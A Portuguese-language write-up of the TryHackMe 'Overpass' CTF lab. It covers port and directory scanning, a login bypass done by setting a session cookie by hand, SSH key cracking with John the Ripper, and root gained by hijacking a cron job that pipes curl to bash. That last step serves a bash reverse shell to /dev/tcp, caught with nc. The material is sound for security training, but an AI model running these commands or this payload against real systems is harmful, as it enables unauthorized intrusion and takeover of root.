

# WriteUp - Overpass THM
[Link to room](https://tryhackme.com/room/overpass)

Configurando hosts:
> echo machine-ip overpassthm >> /etc/hosts

### Objetivo
Capture duas flags da box

### Enumeration
Como sempre vamos começar com um portscan básico
> nmap -A -Pn overpassthm
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Vemos que há um servidor SSH e um servidor HTTP aberto.

### HTTP
Quando visitamos o site somos recebidos com uma página sobre um gerenciador


Vamos rodar o gobuster para ver o que encontramos
> gobuster dir -u http://overpassthm -w /usr/share/wordlists/dirb/common.txt
```gobuster
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
```

Encontramos uma pasta admnistrativa. Temos um formulário mas nenhuma pista sobre credenciais, brute force não é a solução, conforme mencionado na dica.

Olhando o código fonte conseguimos localizar o código de login `(login.js)` e encontramos um trecho interessante aqui:
```login
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

Vamos sentar setar o cookie manualmente pelo console `Cookies.Set("SessionToken", "value");`.

Agora temos acesso a página e encontramos as seguintes informações:
- Chave SSH ENCRYPTED;
- Nome de usuário `james`.

### SSH
Como a chave esta encriptada, a solução é quebrar tudo. Vamos usar `ssh2john.py` para gerar a hash
> python3 /usr/share/john/ssh2john.py james.key > james.hash

E `John the Ripper` com o rockyou.txt para quebrar essa hash
> john james.hash --wordlist=~/Documents/rockyou.txt
```john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (james.key)
1g 0:00:00:00 DONE (2022-02-10 08:14) 16.66g/s 222933p/s 222933c/s 222933C/s lisa..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Agora com a senha em mãos, podemos fazer login no sistema
> sudo chmod 600 james.key
> ssh -i james.key james@overpassthm

```ssh
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{***************************}
```

### PRIVILEGE ESCALATION
Junto a flag temos outro arquivo de notas que tem algo sobre um script automatizado, então olhando o crontab e encontramos algo interessante:
```cron
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Rodando um linpeas.sh conseguimos ver que o arquivo hosts é editavel para TODOS. Com isso, podemos substituir o IP localhost pelo nosso e criar uma shell reversa em nosso servidor web.

Lembrando de criando o arquivo no seguinte path: `/downloads/src/buildscript.sh`
```shell
#/bin/bash
/bin/bash -i >& /dev/tcp/<IP_LOCAL>/1234 0>&1
```

E rodamos o nosso server com python3
> python3 -m http.server 80

Em outro terminal esperamos a conexão e já encontramos a flag root.
> nc -nlvp 1234
```nc
listening on [any] 1234 ...
connect to [10.8.128.26] from (UNKNOWN) [10.10.216.187] 32946
bash: cannot set terminal process group (3169): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```

Agora temos root e podemos pegar a flag do root :)